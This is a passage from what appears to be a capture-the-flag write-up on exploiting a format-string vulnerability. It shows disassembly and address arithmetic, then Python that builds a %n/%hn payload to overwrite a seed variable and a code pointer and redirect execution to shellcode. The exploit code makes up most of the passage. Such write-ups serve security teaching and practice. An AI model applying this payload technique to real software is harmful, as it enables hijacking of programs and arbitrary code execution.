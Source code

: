 Now to jump into the shellcode.

We need to overwrite `CODE` so it points into the beginning of the shellcode. The value stored there
by default is `$BASE_ADDR + 0x134e + 0xfffffffffffffefd`, which is `$BASE_ADDR + 0x134e - 259`:

![More Ghidra Disassembly](https://javascript.is-bad.com/6wXvFTc.png "Disassembly of the default value")

```
 » disass | grep '48 8d 05 fd fe ff ff' -A 1
    1347:	48 8d 05 fd fe ff ff 	lea    rax,[rip+0xfffffffffffffefd]        # 124b <__cxa_finalize@plt+0x14b>
    134e:	48 89 05 ab 3c 00 00 	mov    QWORD PTR [rip+0x3cab],rax        # 5000 <stderr@@GLIBC_2.2.5+0x20>
```

This address will have most of it's bits equal to the shellcode address, so we can overwrite only what's different. However, it's still far enough that in some runs they'll have more than just the last two bytes differering, which makes it unusable. Just try again until it's something usable.

```python
if current_code_ptr_val >> 16 != shellcode_addr >> 16:
    log.error("More than 16 bits of difference! Please re-run")
    import sys
    sys.exit(1)

# Since only the last 16 bits are different, we can write only those
value_to_write = shellcode_addr & 0xFFFF
```

Now to overwrite the seed:

![Seed location](https://i-was-scammed-by.dabbot.org/6PZzKJw.png "Disassembly of the seed loading")

```
 » disass | grep '8b 05 85 3a 00 00' -A 1
    157d:	8b 05 85 3a 00 00    	mov    eax,DWORD PTR [rip+0x3a85]        # 5008 <stderr@@GLIBC_2.2.5+0x28>
    1583:	89 c7                	mov    edi,eax
```

`NOW = $BASE_ADDR + 0x1583 + 0x3a85`

The payload for writing the data is now

```python
# 3764 chars are written for the seed, so we need to write N - 3764
# chars to get the count to the value needed for the shellcode address
# but if the value is too small, it'd fail
if value_to_write < 3764:
    log.error("Value to write too small, please try again")
    import sys
    sys.exit(1)
value_to_write -= 3764

payload = ""
payload += "%03764d"                        # write 3764 characters, so we can overwrite the seed
payload += "%29$n"                          # overwrite time (aka seed) var. %n is an int, which is
                                            # 4 bytes (same size as the seed) in x86-64. This will
                                            # set it to exactly 3764, overwriting all previous bits.
payload += "%0" + str(value_to_write) + "d" # overwrite least significant address bits
                                            # the actual needed value needs to have 3764 subtracted
                                            # from it because we already wrote that many characters
                                            # for the seed.
payload += "%28$hn"                         # overwrite code pointer. %hn is a short, which is the
                                            # two first bytes in a little endian architecture, so
                                            # the pointer value is already right.
```